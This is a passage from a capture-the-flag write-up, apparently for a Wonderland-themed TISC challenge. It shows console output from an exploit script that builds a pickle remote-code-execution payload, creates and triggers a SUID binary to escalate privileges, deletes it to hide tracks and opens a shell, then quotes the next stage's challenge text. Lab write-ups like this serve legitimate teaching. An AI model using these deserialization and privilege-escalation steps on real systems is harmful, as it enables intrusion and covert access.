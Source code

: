 Running the exploit:

```shell
root@42c70e7d708e:/opt/wonderland# ./3_constantize_send.py
[+] Opening connection to 172.17.0.1 on port 31337: Done
[▘] Initialising connection. This will take a moment...
[*] Moving to the a-shallow-deadend to get the pocket-watch...
[*] Disabling text scroll.
[*] Moving to a-curious-hall to drink the pink-bottle...
[*] Moving to a-fancy-pavillion to eat the fluffy-cake...
[*] Moving to a-mystical-cove to get the looking-glass...
[*] Teleporting to under-a-giant-mushroom to get the golden-hookah...
[*] Teleporting to /opt/wonderland/logs
[*] Generating pickle RCE payload...
[*] Writing payload to dd2ded97-475e-4c04-b77b-9875923c8283.item
[*] Triggering RCE...
[*] Constructing pool-of-tears exploit URL.
[*] Sending curl request to trigger the creation of the SUID binary.
[*] Triggering the SUID binary to escalate to the mouse user.
[*] Removing the SUID binary to clean up the tracks.
[*] Getting the flag by executing /home/mouse/flag3.bin
[+] Flag 3:
[+] TISC{mu5t_53ll_4t_th3_t4l13sT_5UM}
[+] Enjoy your shell!
[*] Switching to interactive mode

$ id
uid=1000(rabbit) gid=1000(rabbit) euid=1001(mouse) egid=1001(mouse) groups=1001(mouse)
$
```

The full exploit can be found in `3_constantize_send.py`.



### Stage 4: A Mad Tea Party

The challenge text for this stage is:

```
Great! We have all we need to attend the Tea Party!

To get an idea of what to expect, we've consulted with our informant (initials C.C) who advised:

"Attend the Mad Tea Party.
Come back with (what's in) the Hatter's head.
Sometimes the end of a tale might not be the end of the story.
Things that don't make logical sense can safely be ignored.
Do not eat that tiny Hello Kitty."

This is nonsense to us, so you're on your own from here on out.

The game is hosted at `172.17.0.1:31337`.

No kernel exploits are required for this challenge.

```
